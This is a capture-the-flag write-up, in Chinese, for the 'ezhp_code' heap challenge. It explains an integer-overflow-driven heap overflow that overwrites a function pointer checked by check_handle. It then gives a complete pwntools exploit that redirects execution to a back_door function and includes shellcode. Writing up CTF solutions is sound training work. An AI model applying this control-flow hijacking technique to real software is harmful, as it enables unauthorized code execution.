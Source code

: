# 2024_vctf_pwn_ezhp_code

checksec文件，没开PIE其中有back_door后门函数

![image-20240304191547378](images/image-20240304191547378.png)

![image-20240304191552875](images/image-20240304191552875.png)

在add_User函数中的malloc_lenth函数中对输入的长度左移了一位。

![image-20240304191753416](images/image-20240304191753416.png)

而read_char函数正常读取长度字符串，这将导致堆溢出漏洞。

![image-20240304191843919](images/image-20240304191843919.png)

并且在init_User函数中check_handle函数会检查增添的user的偏移40处的值是否为0，不为0则执行该存储的地址的函数。那么结合上面的整数溢出设计输入长度即可溢出提前写入释放块，当再次被申请回来时进check_handle函数检查即可劫持控制流。

![image-20240304192145640](images/image-20240304192145640.png)



exp:

```
from pwn import *
import time 
import logging
'''
logging.basicConfig(level = logging.INFO,format = '%(asctime)s - %(name)s - %(levelname)s - %(message)s')
logger = logging.getLogger(__name__)
'''
context.log_level = 'DEBUG'
p = process('./ezhp_code') 
#p=remote('172.20.0.2',10000)
elf=ELF('./ezhp_code')

back_door=elf.symbols['back_door']
def add_User_gdb(user_name, lenth, content):
    p.recvuntil(b'3.exit')
    
    #gdb.attach(p,'''
    #           b check_handle
    #           continue
    #           ''')
    p.sendline(b'1')
    p.interactive()

def add_User(user_name, lenth, content):
    p.recvuntil(b'3.exit')
    p.sendline(b'1')
    p.recvuntil(b'Input your name:')
    p.sendline(user_name)
    p.recvuntil(b'The length you want to say:')
    p.sendline(str(lenth).encode())
    p.recvuntil(b'You say:')
    p.sendline(content)

def del_User():
    p.recvuntil(b'3.exit')
    p.sendline(b'2')


add_User(b'A'*0x10, 10, b'A'*0x10)
add_User(b'A'*0x10, 10, b'A'*0x10)
add_User(b'A'*0x10, 10, b'A'*0x10)

del_User()
del_User()

shellcode = asm(shellcraft.sh())
exp_lenth = 2147483650  
nop_sled = b'\x90' * 0x10
payload = b'A'*0x10 + p64(0) + p64(0xa0) + b'A'*0x28 +p64(back_door)+shellcode
add_User(b'A'*0x10, exp_lenth, payload)
add_User_gdb(b'A'*0x10, 10, b'A'*0x10)

```

